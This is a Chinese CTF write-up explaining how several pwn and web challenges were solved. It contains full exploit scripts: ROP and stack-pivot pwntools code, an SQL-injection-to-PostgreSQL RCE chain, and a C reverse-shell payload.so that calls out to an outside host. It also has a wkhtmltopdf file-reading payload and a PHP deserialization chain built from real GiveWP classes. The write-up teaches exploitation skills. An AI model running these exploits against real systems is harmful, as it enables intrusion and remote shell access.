        kfree(msg);
        while (seg != NULL) {
                struct msg_msgseg *tmp = seg->next;

                cond_resched();
                kfree(seg);
                seg = tmp;
        }
}
```

利用思路：

1. 布置之前所示的 `vuln_object` 的 hash list 布局
2. 喷大小为 1k 的 `struct msg_msg`，uaf 写 offset 48，读 `struct msg_msg` 泄露堆地址并确定 `victim_msg_msg`
3. uaf 写 offset 40，向 `victim_msg_msg->security` 写入 `&obj_d->byspi`
4. free `victim_msg_msg->security`, 会调用 `kfree(&obj_d->byspi)`, 喷 `struct pipe_buffer` 以占位

> 这里由于 `obj_d` 所在的 slab 为 `kmalloc-cg-1k`，所以 `kfree(&obj_d->byspi)` 即 `kfree(obj_d+40)` 会制造出一个 overlap with `obj_d` 的 `kmalloc-cg-1k` 的空位

1. delete `obj_d`, 喷大小为 1k 的 `struct msg_msgseg` 占位, 写 pipe, 读 `struct msg_msgseg` 泄露 `anon_pipe_buf_ops` 和内核基址并确定 `victim_msg_msgseg`

> - 实际上是喷 4k `struct msg_msg` + 1k `struct msg_msgseg`
> - 为什么不使用 1k `struct msg_msg`: 因为 `struct msg_msg` 头大小为 48，而 `struct pipe_buffer` 占位起始处为 `struct msg_msg` 的 offset 40，写 pipe 会向 `struct msg_msg` 的 `security` 写一个 `struct page *`，是一个 vmemmap 地址，后续 `kfree(msg->security)` 会走 `__free_pages()` 导致崩溃, 所以用头更小的 `struct msg_msgseg` 占位

1. free `victim_msg_msgseg`，再喷大小为 1k 的 `struct msg_msgseg` 以覆写 `struct pipe_buffer`，伪造 `struct pipe_buf_operations  *ops` 到某个 `struct msg_msg` 上 (提前布置 rop chain)，close pipe 两端触发 rop

## simple_message

题目主要考察 protobuf 的恢复与还原，为了增加一些逆向难度，使用了静态编译以及去除符号表，针对这方面的来说，我记得是可以去 github 上找到一定的符号表导入还原，可以把基础的函数还原出来，当然也可以手动根据功能还原一下。

然后对于 protobuf 消息格式的还原，虽然直接的信息被抹除了，但仍可以通过 0x28AAEEF9 这个 magic number 定位 protobuf，然后 github 搜 protobuf-c.h 导入结构体，可以恢复这样的数据情况：

```sql
.rodata:00000000004BF3A0 stru_4BF3A0     ProtobufCFieldDescriptor <offset aUsername, 1, PROTOBUF_C_LABEL_NONE, \
.rodata:00000000004BF3A0                                         ; DATA XREF: .rodata:stru_4BF580↓o
.rodata:00000000004BF3A0                                           PROTOBUF_C_TYPE_STRING, 0, 18h, 0, \ ; UTF-8 or ASCII string
.rodata:00000000004BF3A0                                           offset unk_4C0183, 0, 0, 0, 0>
.rodata:00000000004BF3E8                 ProtobufCFieldDescriptor <offset aPassword, 2, PROTOBUF_C_LABEL_NONE, \ ; UTF-8 or ASCII string
.rodata:00000000004BF3E8                                           PROTOBUF_C_TYPE_STRING, 0, 20h, 0, \
.rodata:00000000004BF3E8                                           offset unk_4C0183, 0, 0, 0, 0>
.rodata:00000000004BF430                 ProtobufCFieldDescriptor <offset aCommand, 3, PROTOBUF_C_LABEL_NONE, \ ; enumerated type
.rodata:00000000004BF430                                           PROTOBUF_C_TYPE_ENUM, 0, 28h, \
.rodata:00000000004BF430                                           offset stru_4BF880, 0, 0, 0, 0, 0>
.rodata:00000000004BF478                 ProtobufCFieldDescriptor <offset aData, 4, PROTOBUF_C_LABEL_NONE, \ ; arbitrary byte sequence
.rodata:00000000004BF478                                           PROTOBUF_C_TYPE_BYTES, 0, 30h, 0, 0, 0, 0, \
.rodata:00000000004BF478                                           0, 0>
.rodata:00000000004BF4C0                 ProtobufCFieldDescriptor <offset aSize, 5, PROTOBUF_C_LABEL_NONE, \ ; int32
.rodata:00000000004BF4C0                                           PROTOBUF_C_TYPE_INT32, 0, 40h, 0, 0, 0, 0, \
.rodata:00000000004BF4C0                                           0, 0>
···········
.rodata:00000000004BF540 aChallengeReque_3 db 'challenge.Request',0
.rodata:00000000004BF540                                         ; DATA XREF: .rodata:stru_4BF580↓o
.rodata:00000000004BF552 aRequest        db 'Request',0          ; DATA XREF: .rodata:stru_4BF580↓o
.rodata:00000000004BF55A aChallengeReque_4 db 'Challenge__Request',0
.rodata:00000000004BF55A                                         ; DATA XREF: .rodata:stru_4BF580↓o
.rodata:00000000004BF56D aChallenge      db 'challenge',0        ; DATA XREF: .rodata:stru_4BF580↓o
.rodata:00000000004BF56D                                         ; .rodata:stru_4BF880↓o
.rodata:00000000004BF577                 db    0
.rodata:00000000004BF578                 db    0
.rodata:00000000004BF579                 db    0
.rodata:00000000004BF57A                 db    0
.rodata:00000000004BF57B                 db    0
.rodata:00000000004BF57C                 db    0
.rodata:00000000004BF57D                 db    0
.rodata:00000000004BF57E                 db    0
.rodata:00000000004BF57F                 db    0
.rodata:00000000004BF580 stru_4BF580     ProtobufCMessageDescriptor <28AAEEF9h, offset aChallengeReque_3, \
.rodata:00000000004BF580                                         ; DATA XREF: sub_402399+23↑o
.rodata:00000000004BF580                                         ; sub_402437+26↑o ...
.rodata:00000000004BF580                                             offset aRequest, offset aChallengeReque_4,\ ; Describes a message.
.rodata:00000000004BF580                                             offset aChallenge, 48h, 5, \ ; "challenge"
.rodata:00000000004BF580                                             offset stru_4BF3A0, offset unk_4BF510, 1, \
.rodata:00000000004BF580                                             offset unk_4BF530, offset sub_402399, 0, \
.rodata:00000000004BF580                                             0, 0>
```

根据上面恢复出的信息，可以写出如下的 protobuf 结构，然后使用 protoc 生成可使用的 python 文件，在交互时直接调用内置方法即可完成 protobuf 的序列化数据。

```protobuf
syntax = "proto3";

package challenge;
enum Command {
    CMD_UNKNOWN = 0;
    CMD_LOGIN = 1;
    CMD_ECHO = 2;
    CMD_PROCESS = 3;
    CMD_EXIT = 4;
    CMD_SHOW = 5;
    CMD_SPECIAL = 6;
}

message Request {
    string username = 1;
    string password = 2;
    Command command = 3;
    bytes data = 4;
    int32 size = 5;
}
```

利用点设置较为简单，还原出消息格式后，在处理消息功能中存在栈溢出，只要再利用一下消息打印功能泄露 canary，修改执行 sysytem('/bin/sh')即可，这些题目都给出了。

exp：

```python
#!/usr/bin/env python3
from pwn import *
import challenge_pb2

p = process('./pwn1')

def send_request(command, data=b"", size=None):
    """发送 protobuf 请求"""
    req = challenge_pb2.Request()
    req.username = "admin"
    req.password = "P@ssw0rd123"
    req.command = command
    
    if data:
        req.data = data
    
    if size is not None:
        req.size = size
    
    serialized = req.SerializeToString()
    
    p.recvuntil(b'Enter message length: ')
    p.sendline(str(len(serialized)).encode())
    
    p.recvuntil(b'Enter message')
    p.send(serialized)
    
def debug():
        gdb.attach(p, "b *0x0000000000401F7E\n b *0x401d96")


pop_rdi_ret = 0x0000000000402748
bin_sh_addr = 0x00000000004C1125 
system_addr = 0x412010 
ret_gadget = 0x000000000040101a 


# debug()
payload = b'A'*0xFF
send_request(challenge_pb2.CMD_SHOW, payload, 0x110)
p.recvuntil(b'[Show] Data (272 bytes): ')
canary = u64(p.recv(0x110)[-8:])
info("canary===>" + hex(canary))

# debug()
rop = b'A' * 0x108
rop += p64(canary)
rop += p64(0)     
rop += p64(ret_gadget)
rop += p64(pop_rdi_ret)    
rop += p64(bin_sh_addr) 
rop += p64(system_addr)   
send_request(challenge_pb2.CMD_PROCESS, rop, len(rop))


p.interactive()
```

## monitor

漏洞点：process 函数中读取文件名时存在溢出，可以覆盖 rbp 以及一字节的返回地址

思路：溢出的范围较小，并且返回地址可修改的范围较小，考虑使用栈迁移拓展利用。通过 log.txt 文件中给出的地址可以计算出 PIE，liblayer 的基址同时也会泄露栈的地址。利用 liblayer 中的 handle 函数，将 flag 输出到 log.txt 文件，最后读出即可。

```python
from pwn import *
import re

context.log_level = "debug"
context.arch = "amd64"

p = remote("", 54435)

p.sendlineafter(b"What file you want open?\n", b"log.txt")
sleep(1)
p.sendlineafter(b"What file you want open?\n", b"log.txt")
ouput = p.recvuntil(b"What file you want open?\n")
result = re.findall(b'0[xX][a-fA-F0-9]+', ouput)
reuslt = set(result)

print(result)
print("Choice the layer address, stack address, and the pie address.") # 0 and 6 and 1
layer_address = eval(result[eval(input("Layer:"))])
stack_address = eval(result[eval(input("Stack:"))])
pie_address = eval(result[eval(input("PIE:"))]) - 0x20f0
log.info(f"Layer adress: {hex(layer_address)}")
log.info(f"Stack adress: {hex(stack_address)}")
log.info(f"pie base: {hex(pie_address)}")
layer_base = layer_address - 0x71e8
log.info(f"Layer base: {hex(layer_base)}")
snprintf = layer_base + 0x58d8
log.info(f"Snprintf base: {hex(snprintf)}")

# elf = ELF("./monitor")
process_address = pie_address + 0x11bb
leave_address = pie_address + 0x147f

# stack migration to return the snprintf address
payload = b"exit.run\x00\x00\x00\x00\x00\x00" + p64(process_address) + p64(snprintf)
payload = payload.ljust(126, b'\x00') + p64(stack_address + 8 + 0x2000) + p64(leave_address)[:1]
pause()
p.send(payload)     

stack_address -= 0x70
stack_address += 0x460
payload = b"flag".ljust(126, b'\x00') + p64(stack_address + 6)
pause()
p.send( payload)
p.sendlineafter(b"Are you sure? See the SECRET will broken the system! (y/n)", b"n")
pause()
p.sendlineafter(b"What file you want open?\n", b"exit.run")
pause()

p = remote("", 54435)

p.sendlineafter(b"What file you want open?\n", b"log.txt")
ouput = p.recvuntil(b"What file you want open?\n")
print(ouput)

p.close()
```

# Web

## am i admin?

灵感来自 [Unexpected security footguns in Go's parsers](https://blog.trailofbits.com/2025/06/17/unexpected-security-footguns-in-gos-parsers/#attack-scenario-2-parser-differentials)，只要你读一遍文章就能做出来 1 和 2，感觉 ai 大神一眼秒了，属于是 Web 的签到（

### 1

审阅一下代码，可以发现 Login 端点直接反序列化了用户输入的 JSON。

相关的结构长这样：

```go
type UserCreds struct {
        Username string `json:"username"`
        Password string `json:"password"`
        IsAdmin  bool
}
```

如果你写过一些 Go 的话就会知道——即使不指定 json tag，encoding/json 也会默认反序列化变量名；那事情就很简单了，我们随便假装一下 isAdmin 就行：

```json
{"username":"admin","password":"114514","IsAdmin":**true**}
```

然后用同样的 session 执行命令即可。

### 2

相比 1 只加了一个简单的检查：

```go
......
        if strings.Contains(bodyStr, "IsAdmin") {
                http.Error(w, "not allowed!", http.StatusForbidden)
                return
        }
        ......
```

如果你继续阅读上面那篇文章的话，会惊讶（真的吗）地发现 `encoding/json` 默认是大小写不敏感的：所以我们随便改个大小写就能绕过检查。

相关 issue 亦有记载：[golang/go#14750](https://github.com/golang/go/issues/14750)

当然，我们伟大的 Golang 委员会已经悉心听取了群众的意见，率先推出了遥遥领先的 `encoding/json/v2`；[此处](https://pkg.go.dev/encoding/json/v2#hdr-Security_Considerations)也同时批判了 v1 API 设计的种种罪行，值得所有后端 dev 提起警惕。

## easyprint

考察一个简单的信息收集和 CVE 利用，最后做出来的人数还算符合预期。题目本身是一个 HTML 转 PDF 服务，可以想到一般这种都是要实现服务端的 XSS 读文件。简单审下代码发现并没有什么漏洞点，甚至还贴心地禁用了 JavaScript；这时候就要猜测可能是库的问题了。随便搜一下 pdfkit 和他的后端 wkhtmltopdf，能发现这俩都基本处在停止维护的状态：[[1]](https://github.com/JazzCore/python-pdfkit?tab=readme-ov-file#deprecation-warning) [[2]](https://wkhtmltopdf.org/status.html)

> **Do not use wkhtmltopdf with any untrusted HTML** – be sure to sanitize any user-supplied HTML/JS, otherwise it can lead to complete takeover of the server it is running on! Please consider using a Mandatory Access Control system like AppArmor or SELinux, see [recommended AppArmor policy](https://wkhtmltopdf.org/apparmor.html).

哈哈，这不就是我们要干的事吗。翻阅一下 issue 能发现一个 [CVE-2025-26240](https://github.com/JazzCore/python-pdfkit/issues/267)，阅读一下此人的博客记录，你会发现居然可以在 HTML meta tag 里修改 wkhtmltopdf 的命令行选项，且没有经过任何 sanitization：

```python
body = """
    <html>
      <head>
        <meta name="pdfkit-page-size" content="Legal"/>
        <meta name="pdfkit-orientation" content="Landscape"/>
      </head>
      Hello World!
      </html>
    """

pdfkit.from_string(body, 'out.pdf') #with --page-size=Legal and --orientation=Landscape
```

由此按照博客中的 poc 攻击即可。

当然，这里也提供一种 XSS 的打法，直接将 flag 嵌入 pdf：

```xml
<html>
<meta name='pdfkit---enable-javascript' content=''>
<meta name='pdfkit---enable-local-file-access' content=''>
<h2>Hello PDF</h2>
<p>This is sample text that will be converted to PDF.</p>
<script>
    const x = new XMLHttpRequest();
    x.onload = function () {document.write(this.responseText);}
    x.onerror = function () {document.write('failed!')}
    x.open("GET", "file:///flag");
    x.send();
</script>

</html>
```

当然这个 wkhtmltopdf 停止维护的部分原因是 QtWebKit 长期处在[没人管](https://github.com/qt/qtwebkit)的状态；如果你足够无聊的话，大概能从里面找到三千万个 webkit 的历史遗留漏洞，其中应该有不少能 RCE。

题外话：标题其实是在 neta 另一个排版格式转换工具 [weasyprint](https://weasyprint.org/)；如果你有这类 HTML 转 PDF 需求的话，强烈建议你使用他而不是 wkhtmltopdf。之前简单翻了一下源码，这帮人纯用 Python 手工自己造了个渲染引擎，且只支持 CSS 和 HTML，还是比较安全的；如果你对怎么造一个 HTML/CSS 解析器感兴趣的话，也可以去看一看 [Going Further - Weasyprint](https://doc.courtbouillon.org/weasyprint/stable/going_further.html)。

> Are we crazy? Yes. But not that much. Each modern web browser did take many developers’ many years of work to get where they are now, but WeasyPrint’s scope is much smaller: there is no user-interaction, no JavaScript, no live rendering (the document doesn’t changed after it was first parsed) and no quirks mode (we don’t need to support every broken page of the web.)
> We still need however to implement the whole CSS box model and visual rendering. This is a lot of work, but we feel we can get something useful much quicker than “Let’s build a rendering engine!” may seem.

## SUSMarket

灵感来自某天翻 Hacktricks 翻到的 [Pentesting PostgreSQL](https://book.hacktricks.wiki/en/network-services-pentesting/pentesting-postgresql.html#rce)。正好最近碰了不少 pg，决定整一道 config rce。

这里先贴一下源码：

```python
from flask import Flask, request, render_template, redirect, url_for, flash
from psycopg_pool import ConnectionPool

app = Flask(__name__)
app.secret_key = "xxxxxxxxxx"

pool = ConnectionPool(
    conninfo="dbname=susmarket user=sus password=xxxxxxxxxx host=localhost port=5432",
    min_size=1,
    max_size=10,
    max_lifetime=30,
)


def waf(string):
    for i in ['"', "'"]:
        if i in string:
            return True
    return False


@app.route("/")
def home():
    return redirect(url_for("market"))


@app.route("/market")
def market():
    return render_template("market.html")


@app.route("/list")
def list_products():
    with pool.connection() as conn:
        with conn.cursor() as cur:
            cur.execute(
                "SELECT id, product_name, price, stock FROM products ORDER BY id;"
            )
            products = cur.fetchall()
    return render_template("list.html", products=products)


@app.route("/search", methods=["GET", "POST"])
def search_products():
    products = []
    if request.method == "POST":
        product_name = request.form.get("product_name", "").strip()
        if waf(product_name):
            flash("Dangerous traffic detected!", "danger")
            return redirect(url_for("list_products"))
        with pool.connection() as conn:
            with conn.cursor() as cur:
                cur.execute(
                    f"SELECT id, product_name, price, stock FROM products WHERE product_name ILIKE '%{product_name}%';"
                )
                products = cur.fetchall()
    return render_template("search.html", products=products)


@app.route("/buy/<product_id>", methods=["GET", "POST"])
def buy_product(product_id):
    if waf(product_id):
        flash("Dangerous traffic detected!", "danger")
        return redirect(url_for("list_products"))
    with pool.connection() as conn:
        with conn.cursor() as cur:
            cur.execute(
                f"SELECT id, product_name, price, stock, description FROM products WHERE id = {product_id};"
            )
            product = cur.fetchone()

        if not product:
            flash("Product not found.", "danger")
            return redirect(url_for("list_products"))

        if request.method == "POST":
            qty = int(request.form.get("quantity", 1))
            if qty <= 0:
                flash("Invalid quantity.", "danger")
            elif product[3] < qty:
                flash("Not enough stock.", "warning")
            else:
                new_stock = product[3] - qty
                with conn.cursor() as cur:
                    cur.execute(
                        f"UPDATE products SET stock = {new_stock} WHERE id = {product_id};"
                    )
                conn.commit()
                flash(f"Successfully bought {qty} x {product[1]}!", "success")
                return redirect(url_for("list_products"))

    return render_template("buy.html", product=product)


if __name__ == "__main__":
    app.run(debug=True)
```

注意到只过滤了单双引号，这个可以简单地通过 CHR(xx)||CHR(xx) 绕过；且 id 这个注入点是没有引号的，可以直接在后面跟着注。虽然本题没有提供源码，但应该能看出来是 Flask；搜一下 Python 这边最流行的库是 [psycopg](https://www.psycopg.org/)，你会发现他甚至是支持堆叠注入的。

那么第一步我们先注一个版本看一下：

```python
import requests
import base64
from time import sleep


BASE = "http://106.14.191.23:53273"


def execute_sql_echo(sql):
    sleep(1)
    print("[SQL ECHO] " + sql[:100])
    # r = requests.post(
    #     BASE + "/search",
    #     data={
    #         "product_name": f"'; INSERT INTO products (product_name, price, stock) VALUES (({sql}), 0, 0); --"
    #     },
    # )
    try:
        r = requests.get(
            BASE
            + "/buy/"
            + f"1; INSERT INTO products (product_name, price, stock, description) VALUES (({sql}), 0, 0, CHR(32)); --",
        )
        if r.status_code != 200:
            print(r.text)
            exit(1)
    except ConnectionResetError:
        exit(1)


def execute_sql(sql):
    sleep(1)
    print("[SQL] " + sql[:100])
    # r = requests.post(
    #     BASE + "/search",
    #     data={"product_name": f"'; {sql}; --"},
    # )
    try:
        r = requests.get(BASE + "/buy/" + f"1; {sql}; --")
        if r.status_code != 200:
            print(r.text)
            exit(1)
    except ConnectionResetError:
        exit(1)


def encode_string(string):
    return "||".join([f"CHR({ord(i)})" for i in string])


def read_file(remote_fn, lo_id):
    execute_sql_echo(
        f"CAST((SELECT lo_import({encode_string(remote_fn)}, {lo_id})) AS text)"
    )
    execute_sql_echo(f"SELECT lo_get({lo_id})")


def write_file(local_fn, remote_fn, lo_id):
    chunk_size = 2048
    with open(local_fn, "rb") as f:
        content = f.read(chunk_size)
        part_index = 0
        while content:
            b64_chunk = base64.b64encode(content).decode()

            if part_index == 0:
                execute_sql_echo(
                    f"CAST((SELECT lo_from_bytea({lo_id}, decode({encode_string(b64_chunk)}, {encode_string('base64')}))) AS text)"
                )
            else:
                execute_sql_echo(
                    f"CAST((SELECT lo_put({lo_id}, {chunk_size * part_index}, decode({encode_string(b64_chunk)}, {encode_string('base64')}))) AS text)"
                )
            content = f.read(chunk_size)
            part_index += 1

    # Optionally, export the LO data to remote file after writing all chunks
    execute_sql_echo(
        f"CAST((SELECT lo_export({lo_id}, {encode_string(remote_fn)})) AS text)"
    )
    

execute_sql_echo("SELECT version()")
```

注完你可能才会发现这后面是一个 pg，在 products 表里也只会找到一个假 flag 😈；提示我们这题需要 RCE。

我这里用的一种可能的方法是 [preload library RCE](https://adeadfed.com/posts/postgresql-select-only-rce/)，参考利用脚本如下：

```python
lo_id = 114024

execute_sql_echo("SELECT version()")

execute_sql_echo("SELECT sourcefile FROM pg_file_settings LIMIT 1")

read_file("/etc/postgresql/17/main/postgresql.conf", lo_id)

write_file("./postgresql.conf", "/etc/postgresql/17/main/postgresql.conf", lo_id + 1)

write_file("./payload.so", "/tmp/payload.so", lo_id + 2)

execute_sql_echo("CAST((SELECT pg_reload_conf()) AS text)")

"""
execute_sql(
    f"CREATE OR REPLACE FUNCTION _init(void) RETURNS void AS {encode_string('/tmp/payload.so')}, {encode_string('_init')} LANGUAGE C STRICT"
)
"""

# you probably should wait longer irl
sleep(30)

execute_sql_echo("SELECT version()")
```

由于需要改配置文件，可能需要你拿到一份服务器上的配置再做修改。在最后加上两行：

```go
dynamic_library_path = '/tmp:$libdir'
session_preload_libraries = 'payload.so'
```

保存为自己的配置运行脚本上传即可。

其中 payload.so 构造如下：

```cpp
#include <arpa/inet.h>
#include <netinet/in.h>
#include <stdio.h>
#include <stdlib.h>
#include <sys/socket.h>
#include <sys/types.h>
#include <unistd.h>

#include "postgres.h"

#include "fmgr.h"

#ifdef PG_MODULE_MAGIC
PG_MODULE_MAGIC;
#endif

void _init() {
  int port = 8888;
  struct sockaddr_in revsockaddr;

  int sockt = socket(AF_INET, SOCK_STREAM, 0);
  revsockaddr.sin_family = AF_INET;
  revsockaddr.sin_port = htons(port);
  revsockaddr.sin_addr.s_addr = inet_addr("xxxx");

  connect(sockt, (struct sockaddr *)&revsockaddr, sizeof(revsockaddr));
  dup2(sockt, 0);
  dup2(sockt, 1);
  dup2(sockt, 2);

  char *const argv[] = {"/bin/bash", NULL};
  execve("/bin/bash", argv, NULL);
}
// gcc -I$(pg_config --includedir-server) -shared -fPIC -nostartfiles -o payload.so payload.c
```

编译比较麻烦一点，可能需要找个同版本的 pg dev lib；容器里我直接用的 debian 官方源，安装一下 postgresql-server-dev-all 就可以了。

由于题目用的是 psycopg 连接池，等一会发起新的连接就能得到反弹 shell 了。

当然这题也有很多其他解法，比如改 ssl_passphrase_command 等等；当然由于我忘了改 user 权限导致可以直接 `COPY files FROM PROGRAM 'xxx';` 得到 rce，属于是变简单了一些。

## make php greater again

本题改编自笔者挖掘的 wordpress 插件 givewp 的一个 Unauthenticated PHP Object Injection 漏洞[CVE-2025-0912]*（未公开）,原漏洞需要通过一系列注入和绕过达到反序列化点执行反序列化 RCE，本题主要是漏洞后半部分挖掘反序列化链，题目源码里 vendor 和 src 的类都是从 givewp 的源码里获取下来的。

本题最大的考点是 PHP 内置接口在 PHP 反序列化链中的使用,参见:[PHP 内置接口](https://www.php.net/manual/zh/reserved.interfaces.php),[IteratorAggregate](https://www.php.net/manual/zh/class.iteratoraggregate.php)

其中实现了 IteratorAggregate 接口的类会有一个 getIterator 方法,当使用 foreach 把一个实现了 IteratorAggregate 接口的对象进行遍历时,就会调用 getIterator 方法返回一个可遍历变量进行遍历。

因此，当反序列化过程中存在 foreach 对一个变量进行变量，且该变量是可以操控的时候（对象属性），就可以通过设置变量为实现了 IteratorAggregate 接口的对象来调用该对象的 getIterator 方法，**达成了一个 PHP 的反序列化新调用链（非魔术方法）**,其它 PHP 内置接口可以达到类似的效果，不过笔者在真实环境的漏洞挖掘过程中发现最常能够用到的还是 IteratorAggregate

以下是挖掘该题的反序列化链过程

全局搜索__destruct 可以发现存在两个类，其中 TCPDF 的__destruct 可以调用_destroy 方法

```php
class TCPDF {
public function __destruct() {
    // cleanup
    $this->_destroy(true);
}
public function _destroy($destroyall=false, $preserve_objcopy=false) {
...
       if (isset($this->imagekeys)) {

          foreach($this->imagekeys as $file) {
             if (is_string($file) &&strpos($file, _K_PATH_CACHE_) === 0 && TCPDF_STATIC::_file_exists_($file)) {
                       @unlink($file);
             }
          }
       }
    }
...
}
```

重点关注第 10 行到 12 行,可以发现其使用了 foreach 对$this->imagekeys进行了遍历,而$this->imagekeys 是可以通过反序列操控的变量，因此此处可以触发 getIterator（题外话:题目里对_destroy 方法进行了简单的修改,在 11 行增加了一个 is_string($file) 的判断，以此避免了通过设置$this->imagekeys 为一个对象数组，后续通过 strpos 或者 unlink 函数触发 $file 的__toString 方法来串联后续的链条，强制选手必须通过 getIterator 链来完成 RCE）

全局搜索 getIterator 方法,发现有挺多类实现了这个方法,笔者这里选用了 Give\Vendors\Symfony\Component\HttpFoundation\Session\Session 这个类

```php
public function getIterator()
{
    return new \ArrayIterator($this->getAttributeBag()->all());
}
private function getAttributeBag(): AttributeBagInterface
{
    return $this->getBag($this->attributeName);
}
public function getBag(string $name)
{
    $bag = $this->storage->getBag($name);

    return method_exists($bag, 'getBag') ? $bag->getBag() : $bag;
}
```

通过 getIterator 调用$this->getAttributeBag()调用$this->getBag(参数可控)再调用$this->storage->getBag($name),此处可通过 $this->storage 触发__call 方法,全局搜索__call,有一个 ProviderForwarder 类

```php
namespace Give\TestData\Framework;

trait ProviderForwarder
{

    _/** @var array */_
_    _protected $loadedProviders = [];

    _/**_
_     * Forward calls to a provider class._
_     *_
_     * @param string $name_
_     * @param array  $arguments_
_     *_
_     * @return mixed_
_     */_
_    _public function __call($name, $arguments)
    {
        $provider = isset($this->loadedProviders[$name]) ? $this->loadedProviders[$name] : $this->loadProvider($name);

        return call_user_func_array($this->loadedProviders[$name], $arguments);
    }

    _/**_
_     * Load a provider by class name, adjusted for case._
_     *_
_     * @param string $name_
_     *_
_     * @return Contract\Provider_
_     */_
_    _protected function loadProvider($name)
    {
        $providerClass = sprintf('%s\%s\%s', ___NAMESPACE___, 'Provider', ucfirst($name));

        return $this->loadedProviders[$name] = give()->make($providerClass);
    }
}
```

这个__call 最终调用了 call_user_func_array($this->loadedProviders[$name], $arguments);这个$this->loadedProviders[$name]可控,$arguments 可控（Session 的 $this->attributeName）,可以最终实现 RCE

最终 payload 如下

```php
<?php

namespace{
    class TCPDF{
        protected $file_id;
        protected $imagekeys;
        public function __construct()
        {$this->file_id="";
            $this->imagekeys=new Give\Vendors\Symfony\Component\HttpFoundation\Session\Session();

        }
    }
}

namespace Give\Vendors\Symfony\Component\HttpFoundation\Session{


    class Session
    {
        private $attributeName;
        protected $storage;

        public function __construct()
        {
            $this->storage = new \Give\TestData\Factories\DonationFactory();
            $this->attributeName = "ls";
        }
    }

}

namespace Give\TestData\Factories{
    class DonationFactory{
        protected $loadedProviders;
        public function __construct()
        {
            $this->loadedProviders=[];
            $this->loadedProviders['getBag']="system";
        }
    }
}

namespace {
    $a = new TCPDF();
    echo urlencode(serialize($a));
}
```

题外话 2:写 wp 的时候发现可以精简成 3 个类就够了,因为原 CVE 提交时第二步使用的是__toString 链会导致后续调用到 call_user_func_array 时参数 $arguments 不可控,导致最后需要多调用一步最终多用一个类,因此提示里说至少要用到 4 个类。有兴趣的同学也可以自己研究一下__toString 链的触发过程和最后多的那一步怎么实现（个人觉得也是非常巧妙）可以和我讨论 hhh

## easyoa

本意是想出一道代码审计，正好有一个之前审的漏洞一直没修，想着出一下，但是由于国产 oa 有点抽象，有一些历史漏洞没修复以及题目容器的 env 泄露了 flag 导致了很多非预期解，本来想修复一下上一道 revenge，但是由于最近有点忙，在此向大家道个歉。

此漏洞本质上是通过条件竞争对历史漏洞的修复的一个绕过，原理和流程很基础，下附之前的审计记录：

发现任务资源处可以进行文件上传



定位到源代码




这里 `$upimg  = c('upfile');`，继续跟进，调用了 `upfileChajian.php` 下的 `up` 方法，跟进 `up` 方法

```php
public function up($name,$cfile='')
        {
                if(!$_FILES)return 'sorry!';
                $file_name                = $_FILES[$name]['name'];
                $file_size                = $_FILES[$name]['size'];//字节
                $file_type                = $_FILES[$name]['type'];
                $file_error                = $_FILES[$name]['error'];
                $file_tmp_name        = $_FILES[$name]['tmp_name'];
                $zongmax                = $this->getmaxupsize();        
                if($file_size<=0 || $file_size > $zongmax){
                        return '文件为0字节/超过'.$this->formatsize($zongmax).'，不能上传';
                }
                $file_sizecn        = $this->formatsize($file_size);
                $file_ext                = $this->getext($file_name);//文件扩展名

                $file_img                = $this->isimg($file_ext);
                $file_kup                = $this->issavefile($file_ext);
                
                if(!$file_img && !$this->isoffice($file_ext) && getconfig('systype')=='demo')return '演示站点禁止文件上传';
                
                if($file_error>0){
                        $rrs = $this->geterrmsg($file_error);
                        return $rrs;
                }
                        
                if(!$this->contain('|'.$this->ext.'|', '|'.$file_ext.'|') && $this->ext != '*'){
                        return '禁止上传文件类型['.$file_ext.']';
                }
                
                if($file_size>$this->maxsize*1024*1024){
                        return '上传文件过大，限制在：'.$this->formatsize($this->maxsize*1024*1024).'内，当前文件大小是：'.$file_sizecn.'';
                }
                
                //创建目录
                $zpath=explode('|',$this->path);
                $mkdir='';
                for($i=0;$i<count($zpath);$i++){
                        $mkdir.=''.$zpath[$i].'/';
                        if(!is_dir($mkdir))mkdir($mkdir);
                }
                
                //新的文件名
                $file_newname        = $file_name;
                $randname                = $file_name;
                if(!$cfile==''){
                        $file_newname=''.$cfile.'.'.$file_ext.'';
                }else{
                        $_oldval          = m('option')->getval('randfilename');
                        $randname         = $this->getrandfile(1, $_oldval);
                        m('option')->setval('randfilename', $randname);
                        $file_newname=''.$randname.'.'.$file_ext.'';
                }
                
                $save_path        = ''.str_replace('|','/',$this->path);
                //if(!is_writable($save_path))return '目录'.$save_path.'无法写入不能上传';
                $allfilename= $save_path.'/'.$file_newname.'';
                $uptempname        = $save_path.'/'.$randname.'.uptemp';

                $upbool                 = true;
                if(!$file_kup){
                        $allfilename= $this->filesave($file_tmp_name, $file_newname, $save_path, $file_ext);
                        if(isempt($allfilename))return '无法保存到'.$save_path.'';
                }else{
                        $upbool                = @move_uploaded_file($file_tmp_name,$allfilename);
                }
                
                if($upbool){
                        $picw=0;$pich=0;
                        if($file_img){
                                $fobj = $this->isimgsave($file_ext, $allfilename);
                                if(!$fobj){
                                        return 'error:非法图片文件';
                                }else{
                                        $picw = $fobj[0];
                                        $pich = $fobj[1];        
                                }
                        }
                        return array(
                                'newfilename' => $file_newname,
                                'oldfilename' => $file_name,
                                'filesize'    => $file_size,
                                'filesizecn'  => $file_sizecn,
                                'filetype'    => $file_type,
                                'filepath'    => $save_path,
                                'fileext'     => $file_ext,
                                'allfilename' => $allfilename,
                                'picw'        => $picw,
                                'pich'        => $pich
                        );
                }else{
                        return '上传失败：'.$this->geterrmsg($file_error).'';
                }
        }
```

跟进 `$this->issavefile`，发现会对后缀进行白名单判断

```php
public function issavefile($ext)
        {
                $bo                 = false;
                $upallfile        = $this->jpgallext.$this->upallfile;
                if($this->contain($upallfile, '|'.$ext.'|'))$bo = true;
                return $bo;
        }
```

白名单如下

```php
private $jpgallext                = '|jpg|png|gif|bmp|jpeg|';        //图片格式
        
        //可上传文件类型，也就是不保存为uptemp的文件
private $upallfile                = '|doc|docx|xls|xlsx|ppt|pptx|pdf|swf|rar|zip|txt|gz|wav|mp3|avi|mp4|flv|wma|chm|apk|amr|log|json|cdr|psd|';
```

如果我们上传 `.php` 文件则会进入 `$this->filesave`

继续跟进

```php
/**
        *        非法文件保存为临时uptemp的形式
        */
        public function filesave($oldfile, $filename, $savepath, $ext)
        {
                $file_kup        = $this->issavefile($ext);
                $ldisn                 = strrpos($filename, '.');
                if($ldisn>0)$filename = substr($filename, 0, $ldisn);
                $filepath         = ''.$savepath.'/'.$filename.'.'.$ext.'';
                if(!$file_kup){
                        $filebase64        = base64_encode(file_get_contents($oldfile));
                        $filepath         = ''.$savepath.'/'.$filename.'.uptemp';
